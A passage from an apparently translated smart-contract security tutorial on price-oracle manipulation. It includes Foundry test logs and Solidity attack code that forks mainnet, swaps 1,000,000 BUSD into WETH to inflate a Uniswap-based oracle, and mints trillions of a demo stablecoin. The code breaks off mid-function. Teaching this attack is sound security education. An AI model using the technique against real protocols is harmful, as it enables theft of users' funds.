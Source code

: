 4. We can see the attack results in the terminal. Before the attack, the oracle `getPrice()` gave a normal price of `1216 USD` for Ethereum. However, after buying `WETH` with `1,000,000` BUSD in the UniswapV2 `WETH-BUSD` pool, the oracle's reported price was manipulated to be `17,979,841,782,699 USD`. At this point, we were able to easily exchange `1 ETH` for 17 trillion `oUSD` and complete the attack.

  ```shell
  Running 1 test for test/Oracle.t.sol:OracleTest
  [PASS] testOracleAttack() (gas: 356524)
  Logs:
    1. ETH Price (before attack): 1216
    2. Swap 1,000,000 BUSD to WETH to manipulate the oracle
    3. ETH price (after attack): 17979841782699
    4. Minted 1797984178269 oUSD with 1 ETH (after attack)

  Test result: ok. 1 passed; 0 failed; finished in 262.94ms
  ```

"攻击代码：" translates to "Attack code:".

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // fork指定区块
        vm.createSelectFork(MAINNET_RPC_URL,16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // 攻击预言机
        // 0. 操纵预言机之前的价格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore); 
        // 给自己账户 1000000 BUSD
        uint busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. 用busd买weth，推高顺时价格
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. 操纵预言机之后的价格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter); 
        // 4. 铸造oUSD
        ousd.swap{value: 1 ether}();
```
